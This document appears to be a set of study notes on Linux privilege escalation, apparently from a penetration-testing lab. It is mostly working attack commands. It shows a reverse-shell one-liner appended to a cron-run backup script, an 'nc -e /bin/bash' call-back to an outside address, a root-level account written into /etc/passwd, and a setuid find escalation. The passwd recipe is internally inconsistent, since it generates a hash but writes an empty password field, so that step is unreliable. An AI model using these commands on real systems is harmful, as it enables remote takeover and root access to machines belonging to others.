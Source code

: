 **check if sysadmin accounts have select access to tcpdump since it uses raw sockets


## Inspecting File Permissions
#### Abusing Cron Jobs

```
grep "CRON" /var/log/syslog
```

Cron job one liner for reverse call back:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh
```
*or
```
nc 192.168.45.238 4444 -e /bin/bash
```

#### Abusing Password Authentication
*Historically however, password hashes, along with other account information, were stored in the world-readable file **/etc/passwd**. For backwards compatibility, if a password hash is present in the second column of an **/etc/passwd** user record, it is considered valid for authentication and it takes precedence over the respective entry in **/etc/shadow**, if available. This means that if we can write into **/etc/passwd**, we can effectively set an arbitrary password for any account.

```
openssl passwd w00t
echo "root2::0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
w00t
id
```


## Insecure System Components

#### Abusing Setuid Binaries and Capabilities

Abuse of find command via gtfobins
```
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

```
/usr/sbin/getcap -r / 2>/dev/null
```

#### Abusing Sudo

```
sudo -l

gtfobins.com
```
